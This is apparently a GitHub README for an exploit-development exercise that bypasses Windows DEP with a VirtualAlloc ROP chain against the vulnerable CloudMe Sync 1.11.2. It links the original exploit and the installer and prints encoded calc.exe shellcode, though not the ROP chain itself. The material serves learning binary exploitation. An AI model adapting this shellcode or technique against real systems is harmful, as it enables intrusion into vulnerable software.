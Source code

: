 # ROPme
Bypass Data Execution Prevention (DEP) Using VirtualAlloc in a ROP (Return-Oriented Programming) chains is a common technique to bypass DEP (Data Execution Prevention) by allocating executable memory in a process. The idea is to use a sequence of gadgets (short sequences of instructions ending in a return) to call VirtualAlloc or a similar function and allocate memory with PAGE_EXECUTE_READWRITE permissions. This allocated memory can then be used to execute shellcode

![image](https://github.com/user-attachments/assets/ba318158-d6c6-462b-94a8-83b803af2827)



## i start from [here](https://www.exploit-db.com/exploits/46250)
## [CloudMe Sync 1.11.2](https://www.exploit-db.com/apps/f0534b12cd51fefd44002862918801ab-CloudMe_1112.exe) vulnerable version
## --> i use :
### - [WINdbg](https://learn.microsoft.com/en-gb/windows-hardware/drivers/debugger)
### - [immunity Debugger](https://debugger.immunityinc.com/)
### - IDA pro 
### - SublimeText 
### - IDLE from python 
### - [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) function (memoryapi.h)
### - and finaly the calculator shellcode :
```sh

# Shellcode calc.exe
shellcode = ""
shellcode += "\xdb\xde\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x31\xba\xef"
shellcode += "\xc3\xbd\x59\x83\xc0\x04\x31\x50\x14\x03\x50\xfb\x21"
shellcode += "\x48\xa5\xeb\x24\xb3\x56\xeb\x48\x3d\xb3\xda\x48\x59"
shellcode += "\xb7\x4c\x79\x29\x95\x60\xf2\x7f\x0e\xf3\x76\xa8\x21"
shellcode += "\xb4\x3d\x8e\x0c\x45\x6d\xf2\x0f\xc5\x6c\x27\xf0\xf4"
shellcode += "\xbe\x3a\xf1\x31\xa2\xb7\xa3\xea\xa8\x6a\x54\x9f\xe5"
shellcode += "\xb6\xdf\xd3\xe8\xbe\x3c\xa3\x0b\xee\x92\xb8\x55\x30"
shellcode += "\x14\x6d\xee\x79\x0e\x72\xcb\x30\xa5\x40\xa7\xc2\x6f"
shellcode += "\x99\x48\x68\x4e\x16\xbb\x70\x96\x90\x24\x07\xee\xe3"
shellcode += "\xd9\x10\x35\x9e\x05\x94\xae\x38\xcd\x0e\x0b\xb9\x02"
shellcode += "\xc8\xd8\xb5\xef\x9e\x87\xd9\xee\x73\xbc\xe5\x7b\x72"
shellcode += "\x13\x6c\x3f\x51\xb7\x35\x9b\xf8\xee\x93\x4a\x04\xf0"
shellcode += "\x7c\x32\xa0\x7a\x90\x27\xd9\x20\xfe\xb6\x6f\x5f\x4c"
shellcode += "\xb8\x6f\x60\xe0\xd1\x5e\xeb\x6f\xa5\x5e\x3e\xd4\x59"
shellcode += "\x15\x63\x7c\xf2\xf0\xf1\x3d\x9f\x02\x2c\x01\xa6\x80"
shellcode += "\xc5\xf9\x5d\x98\xaf\xfc\x1a\x1e\x43\x8c\x33\xcb\x63"
shellcode += "\x23\x33\xde\x07\xa2\xa7\x82\xe9\x41\x40\x20\xf6"
```

# Demo 
### [Youtube video](https://www.youtube.com/watch?v=Jmxx7TdAzgw) 

# References
- [CS6265: Reverse Engineering and Binary Exploitation Lab](https://tc.gts3.org/cs6265/2021/_static/tut.pdf)
- [Exploit Development: Hands Up! Give Us the Stack! This Is a ROPpery!](https://connormcgarr.github.io/ROP/)

- [Beenu Arora. Shell code for beginners](https://www.exploit-db.com/docs/english/13019-shell-code-for-beginners.pdf)
- [Exploit-db Ashfaq Ansari. Egg-hunter, a twist in buffer overflows](https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf)
- [Exploit database John Leitch. Windows/x86 (xp sp3) (english) - calc.exe shellcode (16 bytes)](https://www.exploit-db.com/shellcodes/43773)
- [National institute of Standards NATIONAL VULNERABILITY DATABASE and An official website of the U.S. government Technology. Most recent official vulnerabilities in vlc media player](https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&query=vlc&search_type=all)
- [Security Stackexchange. What does eip stand for](https://security.stackexchange.com/questions/129499/what-does-eip-stand-for)
- [Stackoverflow. What and where are the stack and heap](https://stackoverflow.com/questions/79923/what-and-where-are-the-stack-and-heap)
- [Stackoverflow. What are the esp and the ebp registers](https://stackoverflow.com/questions/21718397/what-are-the-esp-and-the-ebp-registers)
- [Stackoverflow. What is a reverse shell](https://stackoverflow.com/questions/35271850/what-is-a-reverse-shell)
- [Microsoft Support. What is a dll](https://support.microsoft.com/en-us/help/815065/what-is-a-dll)

